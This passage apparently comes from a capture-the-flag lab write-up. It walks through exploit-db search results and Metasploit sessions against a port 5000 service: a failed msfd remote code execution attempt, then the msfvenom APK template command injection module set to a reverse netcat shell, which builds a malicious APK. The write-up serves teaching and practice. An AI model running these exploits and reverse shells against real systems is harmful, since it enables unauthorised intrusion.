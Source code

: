 ```
webERP 4.0.1 - 'InputSerialItemsFile.php' Arbitrary File Upload                                                                     | php/webapps/35333.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcode Title                                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux/x86 - Read File (/etc/passwd) + MSF Optimized Shellcode (61 bytes)                                                            | linux_x86/45416.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```
Ayy! `Metasploit Framework - 'msfd' Remote Code Execution (Metasploit)` is looking promising, let's give that a shot!
```
msf5 > use exploit/multi/misc/msfd_rce_remote
[*] No payload configured, defaulting to generic/shell_reverse_tcp
...
msf5 exploit(multi/misc/msfd_rce_remote) > show options
...
msf5 exploit(multi/misc/msfd_rce_remote) > exploit

[*] Started reverse TCP handler on 10.10.x.x:6969 
[*] Exploit completed, but no session was created.
```
Nope. Time for something new.

## 5. Port 5000 HTTP Attack Attempt 3
With even more clues, it turns out there is a more recent CVE. 

There's a [`Metasploit Framework 6.0.11 - msfvenom APK template command injection`](https://www.exploit-db.com/exploits/49491) exploit, where an [advisory](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md) has been written for it. More importantly, a [guide](https://github.com/rapid7/metasploit-framework/pull/14331) of sorts to utilize this exploit.

Since there's a Metasploit module written for it, we shall use it.
```
msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name
...
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[+] msf.apk stored at /home/hippoeug/.msf4/local/msf.apk
```
Interesting! This generates a `.apk` file! 
